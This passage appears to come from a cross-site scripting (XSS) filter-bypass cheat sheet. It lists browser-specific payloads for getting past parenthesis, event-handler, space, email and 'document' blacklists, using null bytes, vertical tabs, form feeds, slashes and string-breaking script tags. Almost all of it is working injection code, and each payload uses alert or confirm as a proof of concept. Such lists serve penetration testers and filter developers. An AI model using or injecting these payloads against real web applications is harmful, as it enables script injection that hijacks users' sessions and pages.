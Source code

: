 ```javascript
<script>window['alert'](document['domain'])</script>
```

Bypass parenthesis for string - Firefox/Opera

```javascript
alert`1`
setTimeout`alert\u0028document.domain\u0029`;
```

Bypass onxxxx= blacklist

```javascript
<object onafterscriptexecute=confirm(0)>
<object onbeforescriptexecute=confirm(0)>
```

Bypass onxxx= filter with a null byte/vertical tab - IE/Safari

```javascript
<img src='1' onerror\x00=alert(0) />
<img src='1' onerror\x0b=alert(0) />
```

Bypass onxxx= filter with a '/' - IE/Firefox/Chrome/Safari

```javascript
<img src='1' onerror/=alert(0) />
```

Bypass space filter with "/" - IE/Firefox/Chrome/Safari

```javascript
<img/src='1'/onerror=alert(0)>
```

Bypass space filter with 0x0c/^L

```javascript
<svgonload=alert(1)>


$ echo "<svg^Lonload^L=^Lalert(1)^L>" | xxd
00000000: 3c73 7667 0c6f 6e6c 6f61 640c 3d0c 616c  <svg.onload.=.al
00000010: 6572 7428 3129 0c3e 0a                   ert(1).>.
```

Bypass email filter ([RFC compliant](http://sphinx.mythic-beasts.com/~pdw/cgi-bin/emailvalidate))

```javascript
"><svg/onload=confirm(1)>"@x.y
```

Bypass document blacklist

```javascript
<div id = "x"></div><script>alert(x.parentNode.parentNode.parentNode.location)</script>
```

Bypass using javascript inside a string

```javascript
<script>
foo="text </script><script>alert(1)</script>";
</script>
```
